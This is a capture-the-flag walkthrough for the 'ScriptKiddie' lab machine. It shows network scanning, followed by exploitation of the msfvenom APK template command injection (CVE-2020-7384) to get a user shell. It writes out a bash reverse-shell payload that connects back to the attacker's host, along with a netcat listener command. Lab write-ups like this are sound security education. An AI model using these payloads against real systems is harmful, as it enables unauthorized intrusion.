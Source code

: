 # ScriptKiddie

## Details
* **Points**: 20
* **Difficulty**: Easy  
* **Operating System**: Linux
* **IP Address**: 10.10.10.226

## Table of Contents
* Foothold & User
  * [Network Scanning](#network-scanning)
  * [Website Exploration](#website-exploration)
  * [CVE-2020-7384: Msfvenom APK Template Command Injection](#cve-2020-7384-msfvenom-apk-template-command-injection)
  * [Getting the User Flag](#getting-the-user-flag)
* Root

## Walkthrough

### Network Scanning
Firstly, we start off with network scanning with Nmap.

```
$ sudo nmap -A -p$(nmap -T4 -p- 10.10.10.226 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//') 10.10.10.226                                                  
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-07 15:27 AEST
Nmap scan report for 10.10.10.226
Host is up (0.022s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   22.01 ms 10.10.14.1
2   22.13 ms 10.10.10.226

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.50 seconds
```

Port 5000 of the remote machine is running a web server. Let's visit `http://10.10.10.226:5000/`.

### Website Exploration
![website](images/0.png)

It seems that the website features several hacking tools, which are nmap, msfvenom and searchsploit.

Firstly, let's look at nmap.
![nmap](images/1.png)

In this case, the nmap used is version 7.80, which has no publicly known vulnerabilities.

Now, let's move on to msfvenom. It allows template file to be uploaded. Since I have never used msfvenom with template before, I looked it up on Google.

Apparently, a template file can be used to [evade detection by an anti virus software](https://www.ired.team/offensive-security/defense-evasion/av-bypass-with-metasploit-templates). While researching further, I stumbled upon [this](https://www.exploit-db.com/exploits/49491) entry in exploit-db. When generating a payload with msfvenom, using an APK template file can result in command injection.

### CVE-2020-7384: Msfvenom APK Template Command Injection
![searchsploit](images/2.png)

We can also find the vulnerability entry in `msfconsole`.
```
$ msfconsole -q
msf6 > search msfvenom

Matching Modules
================

   #  Name                                                                    Disclosure Date  Rank       Check  Description
   -  ----                                                                    ---------------  ----       -----  -----------
   0  exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection  2020-10-29       excellent  No     Rapid7 Metasploit Framework msfvenom APK Template Command Injection


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
```

Let's use the exploit and configure the available options.
```
msf6 > use 0
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > show options

# -- snip --

msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LHOST 10.10.14.14
```

I left the listening port as 4444. Finally, execute `exploit` and metasploit should generate the apk file `msf.apk` automatically.

Alternatively, we can generate the apk file `evil.apk` with the script we found earlier in searchsploit.

```
searchsploit -m multiple/local/49491.py
```

Then, change the payload to

```python
# Change me
payload = '/bin/bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"'
```

Finally, run the modified script

```
python3 49491.py
```

### Getting the User Flag
Next, upload the apk template file to the website. Change the `os` to `android` and `lhost` to your ip address.
![apk upload](images/3.png)

Set up a listener with `nc -nlvp 4444` and click on `generate` on the website.

Now, we should get a reverse shell on the remote machine as user `kid`. 

![user flag](images/4.png)